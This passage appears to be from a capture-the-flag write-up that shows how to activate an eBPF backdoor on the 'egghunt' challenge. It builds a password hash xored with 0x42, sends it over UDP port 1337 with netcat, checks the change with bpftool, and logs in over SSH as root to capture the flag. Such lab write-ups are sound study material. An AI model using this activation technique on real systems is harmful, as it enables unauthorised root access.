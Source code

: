 We know we have to:
 - write a payload on UDP port 1337
 - having _total_ length 42 (0x002a); so 8 (header len) + 34 (payload len)
 - it should start with 0x66, 0x73, 0x66 which is `fsf` and this is actually `$1$` xored with 0x42
 
This will trigger the backdoor to write it into the map and set the enabled flag to true. Let's black box the other two bpf programs and just try things out. First, we generate a hash and write it xored to a file. Next we push it using netcat to port 1337 on UDP.

```
root@egghunt:~# openssl passwd -1 djdtyhkerhgkehrkfhwkghwrhgeger
$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1
root@egghunt:~# python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> xored = bytearray([i ^ 0x42 for i in bytearray(b"$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1")])
>>> open("xored", "wb").write(xored)
34
root@egghunt:/# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": false,
                        "hash": ""
                    }
                }
            ]
        }
    }
]
root@egghunt:~# nc -u 127.0.0.1 1337 < xored 
root@egghunt:~# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": true,
                        "hash": "$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1"
                    }
                }
            ]
        }
    }
]

```
Looks like it worked. Shall we try the remote end as well?

```
root@egghunt:~# nc -u egghunt.challenges.adversary.zone 1337 < xored 
root@egghunt:~# ssh root@egghunt.challenges.adversary.zone 
root@egghunt.challenges.adversary.zone's password: 
CS{ebpf_b4ckd00r_ftw}
```

